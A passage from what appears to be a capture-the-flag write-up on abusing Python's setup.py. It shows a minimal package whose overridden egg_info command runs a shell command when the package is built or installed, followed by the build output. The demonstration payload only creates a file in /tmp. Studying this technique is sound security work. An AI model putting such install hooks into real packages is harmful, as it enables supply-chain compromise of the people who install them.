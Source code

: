 [This blog post](https://medium.com/checkmarx-security/automatic-execution-of-
code-upon-package-download-on-python-package-manager-cd6ed9e366a8) brought the
malicious aspects to light (again) in August 2022.

#### Package

Embrace The Red has a [nice
post](https://embracethered.com/blog/posts/2022/python-package-manager-
install-and-download-vulnerability/) on abusing this. I’ll follow that, but
build a slightly more stripped down version. A `setup.py` file is meant to
generate the metadata about the package, but it’s also a Python file so it can
execute code. The `setup` function call is what is referenced by `pip`. I’ll
build a minimal version of that:

    
    
    from setuptools import setup
    from setuptools.command.egg_info import egg_info
    import os
    
    
    class RunEggInfoCommand(egg_info):
        def run(self):
            os.system("touch /tmp/0xdf")
            egg_info.run(self)
    
    setup(
        name = "own_this_is_for_you",
        version = "0.0.1",
        license = "MIT",
        packages=[],
        cmdclass={
            'egg_info': RunEggInfoCommand
        },
    )
    

I’ve used `cmdclass` to define an `egg_info` object which takes a class. That
class is defined above, and the `run` function will be invoked. Since I’m
overwriting the default `egg_info`, it’s important to call the legit one after
of this won’t build.

With this single file in a directory, I’ll run `python -m build` in the same
directory:

    
    
    oxdf@hacky$ ls
    setup.py
    oxdf@hacky$ python3 -m build 
    * Creating venv isolated environment...
    * Installing packages in isolated environment... (setuptools >= 40.8.0, wheel)
    * Getting build dependencies for sdist...
    running egg_info
    ...[snip]...
    adding 'own_this_is_for_you-0.0.1.dist-info/RECORD'
    removing build/bdist.linux-x86_64/wheel
    Successfully built own_this_is_for_you-0.0.1.tar.gz and own_this_is_for_you-0.0.1-py3-none-any.whl
    oxdf@hacky$ ls
    dist  own_this_is_for_you.egg-info  setup.py
    